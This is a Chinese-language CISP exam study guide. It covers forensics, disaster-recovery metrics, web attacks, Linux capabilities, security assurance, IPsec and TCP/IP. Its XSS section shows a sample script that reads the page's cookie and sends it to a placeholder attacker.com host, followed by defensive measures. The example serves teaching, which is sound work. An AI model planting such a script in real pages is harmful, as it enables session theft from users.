





---
title: "CISP学习指南：计算机取证、网络安全与系统保障"
date: 2025-10-18
categories:
  - Cybersecurity
tags:
  - CISP
excerpt: "深入解析CISP认证中的计算机取证、灾难恢复指标、Web攻击防护、Linux权能管理、IPsec VPN和TCP/IP协议栈等核心知识点。"
lang: zh-CN
available_langs: []
permalink: /zh-CN/2025/10/CISP-Forensics-Network-Security/
thumbnail: /assets/cisp/thumbnail.png
thumbnail_80: /assets/cisp/thumbnail_80.png
series: cisp
canonical_lang: zh-CN
---

本指南涵盖CISP认证中的计算机取证、灾难恢复、网络安全攻击防护、系统安全管理等关键领域的核心知识点。

## 一、计算机取证

### 1.1 计算机取证概述

!!!anote "📚 计算机取证定义"
    **计算机取证**是使用先进的技术和工具，按照标准规程全面地检查计算机系统，以提取和保护有关计算机犯罪的相关证据的活动。
    
    **核心目标：**
    - 通过证据查找肇事者
    - 通过证据推断受害者损失程度
    - 收集证据提供法律支持

### 1.2 电子证据

!!!anote "🔍 电子证据"
    **电子证据**是计算机系统运行过程中产生的各种信息记录存储的电子化资料及物品。
    
    **取证工作的三个核心方面：**
    1. **证据的获取**
    2. **证据的保护**
    3. **证据的分析** ⚠️

**常见误解：**

!!!warning "⚠️ 注意"
    取证工作不仅仅围绕"证据的获取"和"证据的保护"两方面进行，还包括**证据的分析**。
    
    完整的取证工作包括：
    - 证据获取
    - 证据保护
    - 证据分析
    - 证据提交

### 1.3 计算机取证流程



**五个步骤详解：**

| 步骤 | 说明 | 关键活动 |
|------|------|---------|
| 1. 准备 | 制定取证计划和准备工具 | 确定取证目标、准备取证工具包、获取授权 |
| 2. 保护 | 保护现场和证据 | 隔离系统、防止证据被破坏、记录现场状态 |
| 3. 提取 | 收集和复制证据 | 创建镜像、提取日志、收集易失性数据 |
| 4. 分析 | 分析证据内容 | 数据恢复、时间线分析、关联分析 |
| 5. 提交 | 形成报告并提交 | 编写报告、准备法庭证词、保存证据链 |

### 1.4 取证最佳实践

**证据链管理：**

- 📝 详细记录每个操作步骤
- 🔒 确保证据的完整性（使用哈希值）
- 👥 明确责任人和交接记录
- 📅 记录时间戳
- 🔐 安全存储原始证据

**取证工具：**

- 磁盘镜像工具（dd, FTK Imager）
- 内存取证工具（Volatility, Rekall）
- 网络取证工具（Wireshark, tcpdump）
- 日志分析工具
- 文件恢复工具

## 二、灾难恢复指标

### 2.1 RPO和RTO

!!!anote "📊 关键指标"
    **RPO（Recovery Point Objective，恢复点目标）**
    - 定义：系统能够容忍的最大数据丢失量
    - 单位：时间（如3小时）
    - 含义：若RPO为3小时，意味着系统恢复后，**至多能丢失3小时的业务数据**
    
    **RTO（Recovery Time Objective，恢复时间目标）**
    - 定义：系统从故障到恢复正常运行的最大可容忍时间
    - 单位：时间（如1小时）
    - 含义：若RTO为1小时，意味着系统必须在1小时内恢复运行

### 2.2 RPO详解

**RPO示例场景：**

假设某电子商务系统的RPO为3小时：



**RPO的影响因素：**

| 因素 | 说明 | 影响 |
|------|------|------|
| 备份频率 | 备份间隔时间 | 备份越频繁，RPO越小 |
| 备份技术 | 全量/增量/差异备份 | 影响恢复速度和数据完整性 |
| 业务重要性 | 数据的关键程度 | 关键业务需要更小的RPO |
| 成本 | 备份和存储成本 | RPO越小，成本越高 |

### 2.3 RTO详解

**RTO示例场景：**

假设某系统的RTO为1小时：


**RTO的组成部分：**

- 🔍 故障检测时间
- 📞 人员响应时间
- 🔧 问题诊断时间
- 💾 数据恢复时间
- ✅ 系统验证时间

### 2.4 RPO vs RTO

!!!tip "💡 区别记忆"
    - **RPO（恢复点）**：关注**数据丢失**，回答"能丢多少数据"
    - **RTO（恢复时间）**：关注**停机时间**，回答"能停多长时间"

**对比表：**

| 指标 | RPO | RTO |
|------|-----|-----|
| 关注点 | 数据丢失 | 停机时间 |
| 度量 | 数据量（以时间表示） | 时间 |
| 影响因素 | 备份频率 | 恢复速度 |
| 成本驱动 | 存储和备份 | 冗余和自动化 |

## 三、Web安全攻击

### 3.1 跨站脚本攻击（XSS）

!!!anote "🎯 XSS攻击定义"
    **跨站脚本攻击（Cross-Site Scripting, XSS）**是向Web页面插入恶意HTML代码或脚本的攻击方式。
    
    当用户浏览该页面时，嵌入的恶意代码会被执行，从而达到攻击目的。

**XSS攻击场景示例：**



### 3.2 XSS攻击类型

**三种主要类型：**

| 类型 | 说明 | 特点 |
|------|------|------|
| 反射型XSS | 恶意代码在URL中，服务器反射回页面 | 需要用户点击恶意链接 |
| 存储型XSS | 恶意代码存储在服务器（如数据库） | 影响所有访问该页面的用户 |
| DOM型XSS | 恶意代码在客户端执行，不经过服务器 | 完全在客户端发生 |

**XSS攻击示例代码：**

```html
<!-- 恶意广告中的XSS脚本 -->
<script>
  // 窃取用户cookie
  var cookie = document.cookie;
  // 发送到攻击者服务器
  new Image().src = "http://attacker.com/steal?cookie=" + cookie;
  // 重定向到旅游网站
  window.location = "http://travel-site.com";
</script>
```

### 3.3 其他Web攻击类型

**常见Web攻击对比：**

| 攻击类型 | 目标 | 攻击方式 | 影响 |
|---------|------|---------|------|
| XSS | 用户浏览器 | 注入恶意脚本 | 窃取信息、会话劫持 |
| SQL注入 | 数据库 | 注入恶意SQL语句 | 数据泄露、数据篡改 |
| CSRF | 用户会话 | 伪造用户请求 | 未授权操作 |
| 缓冲区溢出 | 应用程序 | 超长输入 | 代码执行、系统崩溃 |
| DDoS | 服务可用性 | 大量请求 | 服务中断 |

### 3.4 XSS防护措施

**防护策略：**

- ✅ **输入验证**：验证和过滤用户输入
- ✅ **输出编码**：对输出内容进行HTML编码
- ✅ **CSP（内容安全策略）**：限制脚本来源
- ✅ **HttpOnly Cookie**：防止JavaScript访问Cookie
- ✅ **X-XSS-Protection头**：启用浏览器XSS过滤

**输出编码示例：**

```javascript
// 不安全的做法
element.innerHTML = userInput;

// 安全的做法
element.textContent = userInput;

// 或使用编码函数
function escapeHtml(text) {
  return text
    .replace(/&/g, "&amp;")
    .replace(/</g, "&lt;")
    .replace(/>/g, "&gt;")
    .replace(/"/g, "&quot;")
    .replace(/'/g, "&#039;");
}
```

## 四、Linux权能管理

### 4.1 权能机制概述

!!!anote "🔐 Linux权能（Capabilities）"
    从Linux内核2.1版开始，实现了**基于权能的特权管理机制**，实现了对超级用户的特权分割。
    
    **核心思想：**
    - 打破UNIX/LINUX中超级用户/普通用户的二元概念
    - 将root权限细分为多个独立的权能
    - 提高操作系统的安全性

### 4.2 权能管理特性

**权能机制的关键特性：**

| 特性 | 说明 | 示例 |
|------|------|------|
| 权能分配 | 普通用户shell没有任何权能 | 默认无特权 |
| 超级用户权能 | root在启动时拥有全部权能 | 完整权限集 |
| 权能放弃 | 进程可以放弃自己的某些权能 | 主动降权 |
| 权能不可恢复 | 系统管理员**不能**恢复超级用户已放弃的权能 | ⚠️ 重要限制 |

!!!warning "⚠️ 常见误解"
    **错误说法：系统管理员可以剥夺和恢复超级用户的某些权能。**
    
    ❌ **为什么这是错误的：**
    - 进程可以**主动放弃**自己的权能
    - 但一旦放弃，**无法恢复**
    - 系统管理员也不能恢复已放弃的权能
    
    ✅ **正确理解：**
    - 权能只能被放弃，不能被恢复
    - 这是一种单向的安全机制
    - 需要重启进程才能重新获得权能

### 4.3 常见Linux权能

**部分Linux权能列表：**

| 权能 | 说明 | 用途 |
|------|------|------|
| CAP_CHOWN | 修改文件所有者 | chown命令 |
| CAP_NET_BIND_SERVICE | 绑定小于1024的端口 | Web服务器 |
| CAP_NET_ADMIN | 网络管理操作 | 配置网络接口 |
| CAP_SYS_ADMIN | 系统管理操作 | 挂载文件系统 |
| CAP_SYS_TIME | 修改系统时间 | date命令 |
| CAP_KILL | 发送信号给任意进程 | kill命令 |

### 4.4 权能管理实践

**查看进程权能：**

```bash
# 查看当前进程的权能
cat /proc/self/status | grep Cap

# 查看特定进程的权能
cat /proc/[PID]/status | grep Cap

# 使用capsh查看权能
capsh --print
```

**设置文件权能：**

```bash
# 给可执行文件设置权能
sudo setcap cap_net_bind_service=+ep /usr/bin/myapp

# 查看文件权能
getcap /usr/bin/myapp

# 移除文件权能
sudo setcap -r /usr/bin/myapp
```

**权能使用示例：**

```bash
# 允许普通用户运行的程序绑定80端口
# 而不需要完整的root权限
sudo setcap cap_net_bind_service=+ep /usr/bin/node

# 现在普通用户可以运行
node server.js  # 监听80端口
```

## 五、信息系统安全保障

### 5.1 安全保障评估框架

!!!anote "📋 GB/T 20274.1-2006"
    **《信息安全技术 信息系统安全保障评估框架 第一部分：简介和一般模型》**
    
    定义了信息系统安全保障模型的三个核心方面：
    1. **保障要素**
    2. **生命周期**
    3. **安全特征**

### 5.2 保障模型三要素



**三要素详解：**

| 要素 | 说明 | 内容 |
|------|------|------|
| 保障要素 | 实现安全保障的手段 | 技术、管理、工程、人员 |
| 生命周期 | 系统的各个阶段 | 规划、实施、运行、废弃 |
| 安全特征 | 安全目标和属性 | 机密性、完整性、可用性等 |

### 5.3 保障要素

**四类保障要素：**

- 🔧 **技术**：安全技术和产品
- 📋 **管理**：安全策略和制度
- 🏗️ **工程**：安全建设和实施
- 👥 **人员**：安全意识和技能

### 5.4 生命周期

**系统生命周期阶段：**

1. **规划设计**：需求分析、架构设计
2. **实施建设**：开发、测试、部署
3. **运行维护**：监控、更新、优化
4. **废弃**：数据销毁、系统下线

### 5.5 安全特征

**五大安全特征：**

- 🔒 **机密性**：防止信息泄露
- ✅ **完整性**：防止信息被篡改
- 🚀 **可用性**：确保服务可用
- 🎛️ **可控性**：控制信息流向
- 📊 **可审查性**：记录和审计

## 六、IPsec VPN

### 6.1 IPsec VPN概述

!!!anote "🔐 IPsec VPN"
    **IPsec（Internet Protocol Security）VPN**是一种在IP层提供安全通信的协议套件。
    
    **核心功能：**
    - 数据加密（机密性）
    - 数据完整性验证
    - 身份认证
    - 防重放攻击

### 6.2 IPsec协议和算法

**常见误解：**

!!!warning "⚠️ 算法功能混淆"
    - ❌ **MD5不提供数据加密**，它是哈希算法，用于完整性验证
    - ❌ **AES不提供完整性验证**，它是加密算法，用于数据加密
    - ❌ **AH协议不提供数据机密性**，它只提供完整性和认证
    
    ✅ **正确理解：**
    - **MD5/SHA**：完整性验证（哈希）
    - **AES/3DES**：数据加密（机密性）
    - **AH**：认证和完整性
    - **ESP**：加密、认证和完整性

**IPsec协议和算法对比：**

| 类型 | 名称 | 功能 | 用途 |
|------|------|------|------|
| 协议 | AH | 认证、完整性 | 数据完整性保护 |
| 协议 | ESP | 加密、认证、完整性 | 全面安全保护 |
| 加密 | AES | 数据加密 | 保护机密性 |
| 加密 | 3DES | 数据加密 | 保护机密性 |
| 哈希 | MD5 | 完整性验证 | 检测篡改 |
| 哈希 | SHA | 完整性验证 | 检测篡改 |

### 6.3 IPsec VPN部署

**部署最佳实践：**

!!!tip "💡 IP地址规划"
    部署IPsec VPN时，需要考虑IP地址的规划：
    
    - ✅ 在分支节点使用**可以聚合的IP地址段**
    - ✅ 减少IPsec安全关联（SA）资源的消耗
    - ✅ 简化路由配置
    - ✅ 提高管理效率

**IP地址聚合示例：**

```
# 不好的做法（分散的地址）
分支1: 192.168.1.0/24
分支2: 172.16.5.0/24
分支3: 10.0.100.0/24

# 好的做法（可聚合的地址）
分支1: 10.1.1.0/24
分支2: 10.1.2.0/24
分支3: 10.1.3.0/24
聚合: 10.1.0.0/16
```

### 6.4 IPsec SA（安全关联）

**SA的概念：**

- 📝 SA是IPsec通信的基础
- 🔑 定义了安全参数（算法、密钥等）
- 🔄 单向的（需要两个SA实现双向通信）
- 💾 消耗系统资源

**减少SA消耗的方法：**

- 使用地址聚合
- 合理规划隧道
- 使用动态路由协议
- 定期清理无用SA

## 七、TCP/IP协议栈

### 7.1 TCP/IP模型

!!!anote "📚 TCP/IP四层模型"
    TCP/IP协议栈包含四层：
    1. **应用层**（Application Layer）
    2. **传输层**（Transport Layer）
    3. **互联网络层**（Internet Layer）
    4. **网络接口层**（Network Interface Layer）

### 7.2 数据封装顺序

**数据封装流程：**



**数据封装的层次顺序：**

!!!anote "📦 封装过程"
    当应用程序发送数据时，数据会从上到下逐层封装：
    
    **1. 传输层（Transport Layer）**
    - 添加TCP或UDP头部
    - 包含源端口和目的端口
    - 形成TCP段或UDP数据报
    
    **2. 互联网络层（Internet Layer）**
    - 添加IP头部
    - 包含源IP地址和目的IP地址
    - 形成IP数据包
    
    **3. 网络接口层（Network Interface Layer）**
    - 添加以太网帧头和帧尾
    - 包含源MAC地址和目的MAC地址
    - 形成完整的以太网帧

### 7.3 各层协议

**TCP/IP各层主要协议：**

| 层次 | 主要协议 | 功能 |
|------|---------|------|
| 应用层 | HTTP, FTP, SMTP, DNS | 应用程序通信 |
| 传输层 | TCP, UDP | 端到端通信 |
| 互联网络层 | IP, ICMP, ARP | 路由和寻址 |
| 网络接口层 | Ethernet, Wi-Fi | 物理传输 |

### 7.4 封装和解封装

**发送数据（封装）：**

```
应用数据
    ↓ 传输层添加TCP头
TCP段
    ↓ 网络层添加IP头
IP数据包
    ↓ 数据链路层添加帧头和帧尾
以太网帧
    ↓ 物理层
比特流
```

**接收数据（解封装）：**

```
比特流
    ↓ 物理层
以太网帧
    ↓ 数据链路层移除帧头和帧尾
IP数据包
    ↓ 网络层移除IP头
TCP段
    ↓ 传输层移除TCP头
应用数据
```

## 八、总结

### 8.1 核心知识点

**计算机取证：**
- 取证流程：准备、保护、提取、分析、提交
- 取证工作包括：证据获取、保护和**分析**

**灾难恢复：**
- RPO（恢复点目标）：关注数据丢失，至多能丢失的数据量
- RTO（恢复时间目标）：关注停机时间

**Web安全：**
- XSS攻击：向Web页面插入恶意HTML代码或脚本
- 防护：输入验证、输出编码、CSP

**Linux权能：**
- 权能可以被放弃，但**不能被恢复**
- 打破超级用户/普通用户的二元概念

**安全保障：**
- 三要素：保障要素、生命周期、安全特征
- 不包括"运行维护"或"规划组织"

**IPsec VPN：**
- MD5用于完整性验证，不提供加密
- AES用于加密，不提供完整性验证
- AH不提供机密性
- 部署时需考虑IP地址聚合

**TCP/IP：**
- 封装顺序：传输层 → 互联网络层 → 网络接口层

### 8.2 考试要点

!!!tip "💡 考试提示"
    - 记住取证的五个步骤
    - 区分RPO和RTO的含义
    - 理解XSS攻击的原理和防护
    - 记住Linux权能不可恢复的特性
    - 掌握安全保障模型的三要素
    - 区分IPsec中加密和哈希算法的功能
    - 记住TCP/IP数据封装的正确顺序

---

**相关资源：**
- GB/T 20274.1-2006 信息系统安全保障评估框架
- RFC 4301 - Security Architecture for the Internet Protocol
- OWASP Top 10 Web Application Security Risks
